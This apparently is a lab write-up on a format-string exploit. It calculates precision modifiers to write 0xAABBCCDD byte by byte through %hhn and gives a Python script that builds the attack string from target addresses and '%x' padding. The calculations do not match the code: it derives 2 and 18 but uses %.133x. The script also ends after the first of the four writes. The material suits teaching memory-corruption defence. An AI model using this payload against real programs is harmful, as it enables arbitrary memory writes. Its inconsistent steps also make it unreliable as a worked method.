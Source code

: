The values written are cumulative, so when constructing our string, we have to start with the addresses that will store lower values.

For this task, I need to determine the total number of characters I would need to print for each precision modifier.
- 0xAA = 170
- 0xBB = 187
- 0xCC = 204
- 0xDD = 221
- The offset is 64, and will contain multiple format specifiers:
  - we need one for the %hhn% format specifier for the first address
  - we need one for the %x modulo precision modifier for the first address
  - we need 64 - 2 for the %x whole number precision modifier for the first address
- The string will be built as: lower value address +  4 bytes of random data to account for the %x specifier that will be used for the second address + next higher value address + 4 bytes of random data to account for the %x specifier that will be used for the third address + next higher value address + 4 bytes of random data to account for the %x specifier that will be used for the fouth address + the highest value address. This is a total of 28 bytes.
- The first address will store a lower value which is 0xAA (170). The first 28 bytes are where I would store the target variable's addresses.
  - 170 - 28 = 142
- The whole number %x precision modifier for the first address is:
  - 142 // 62 = 2
- The modulo number %x precision modifier for the first address is:
  - 142 % 62 = 18
- The second address will store a higher value, which is 0xBB.
  - 0xBB - 0xAA = 17
- The third address will store a higher value, which is 0xCC.
  - 0xCC - 0xBB = 17
- The last address will store a higher value, which is 0xDD.
  - 0xDD - 0xCC = 17

<details><summary>notes</summary></details>


```python
#!/usr/bin/python3
import sys

# Start input with the memory address that will store a lower value
content = (0x080e506b).to_bytes(4,byteorder='little')

# Append 4-bytes to account for writing to the second memory address
content += ("@@@@").encode('latin-1')

# Append the next memory address
content += (0x080e506a).to_bytes(4,byteorder='little')

# Append 4-bytes to account for writing to the third memory address
content += ("@@@@").encode('latin-1')

# Append the next memory address
content += (0x080e5069).to_bytes(4,byteorder='little')

# Append 4-bytes to account for writing to the fourth memory address
content += ("@@@@").encode('latin-1')

# Append the memory address that will store a highest value
content += (0x080e5068).to_bytes(4,byteorder='little')

# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
content += ("%.2x" * 62).encode('latin-1')
content += ("%.133x%hhn").encode('latin-1')

```